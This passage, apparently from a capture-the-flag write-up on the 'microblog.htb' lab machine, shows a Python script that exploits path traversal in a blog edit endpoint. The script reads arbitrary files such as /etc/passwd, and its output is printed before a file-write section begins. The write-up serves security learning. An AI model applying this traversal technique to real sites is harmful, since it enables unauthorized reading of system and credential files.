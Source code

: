     sess = requests.session()
    sess.proxies.update({"http": "http://127.0.0.1:8080"})
    
    # register for site
    body = {"first-name": token, "last-name": token, "username": token, "password": token}
    resp = sess.post("http://app.microblog.htb/register/", data=body)
    
    # create blog
    resp = sess.post("http://app.microblog.htb/dashboard/", data={"new-blog-name": token})
    
    # file read
    resp = sess.post(f"http://microblog.htb/edit/", 
                     data={"id": f"../../../../../../{file}", "txt":"0xdf"}, 
                     headers={"Host": f"{token}.microblog.htb"},
                     allow_redirects=False)
    data = re.search(r'const html = "<div class = \\".+?\\">(.*?)<\\/', resp.text, re.DOTALL).group(1)
    print(bytes(data, 'utf-8').decode('unicode_escape'))
    

The result allows me to request files:

    
    
    oxdf@hacky$ python file_read.py /etc/passwd
    root:x:0:0:root:\/root:\/bin\/bash
    daemon:x:1:1:daemon:\/usr\/sbin:\/usr\/sbin\/nologin
    ...[snip]...
    cooper:x:1000:1000::\/home\/cooper:\/bin\/bash
    redis:x:103:33::\/var\/lib\/redis:\/usr\/sbin\/nologin
    git:x:104:111:Git Version Control,,,:\/home\/git:\/bin\/bash
    messagebus:x:105:112::\/nonexistent:\/usr\/sbin\/nologin
    sshd:x:106:65534::\/run\/sshd:\/usr\/sbin\/nologin
    _laurel:x:997:997::\/var\/log\/laurel:\/bin\/false
    oxdf@hacky$ python file_read.py /proc/self/cmdline
    php-fpm: pool www
    

#### File Write POC

I’ll find most attempts to write inside the current web directory fail. There
is one directory that must be writable, and that’s `/content`. Trying to visit
`/content` on a microblog site returns 403:

![image-20230515150546024](../img/image-20230515150546024.png)
